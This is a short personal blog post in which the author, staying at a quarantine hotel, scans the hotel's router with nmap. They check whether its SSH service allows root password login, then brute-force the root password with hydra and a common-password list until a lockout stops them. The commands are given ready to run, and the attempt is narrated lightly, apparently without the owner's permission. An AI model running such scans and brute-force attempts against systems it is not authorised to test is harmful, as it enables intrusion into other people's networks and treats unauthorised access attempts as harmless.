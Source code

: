 ```yaml
---
title: Scan An Open ssh Port
lang: en-US
date: 2020-06-01
tags: [ network ]
---
```


I was living in a hotel in the qurantine time, which has a very bad network.
While I was doing some network configuration checking, I accidentally found the ssh port of the router is open.

<!-- more -->

## Scan open ports

I was scanning the router for an open HTTP port where I found its ssh port openning.
``` bash
    nmap $TARGET_IP
```

## Check ssh authentication

Further check if it accepts `root` remote connect and password authentications.
``` bash
ssh -v -n\
    -o Batchmode=yes\
    -o StrictHostKeyChecking=no\
    -o UserKnownHostsFile=/dev/null\
    root@$TARGET_IP 2>&1 | grep password
```

Turns out it does!
``` bash
debug1: Authentications that can continue: password
Permission denied (password).
```

## Try brute force the password
Use a [dictionary](https://github.com/danielmiessler/SecLists)
``` bash
    hydra -l root -P top-20-common-SSH-passwords.txt $TARGET_IP -t 4 ssh
```

## User locked
Afte 10 tries, the `root` was locked.
Looks like it is a Cisco router with [Login Password Retry Lockout](https://www.cisco.com/en/US/docs/ios-xml/ios/sec_usr_aaa/configuration/15-2mt/sec-login-pw-retry.html#GUID-CA5A3F7D-E324-490E-B551-802924411091).
Had to adimit it is secure to me :relieved:.

## Reference
- [https://serverfault.com/questions/938149/how-to-test-if-ssh-server-allows-passwords](https://serverfault.com/questions/938149/how-to-test-if-ssh-server-allows-passwords)
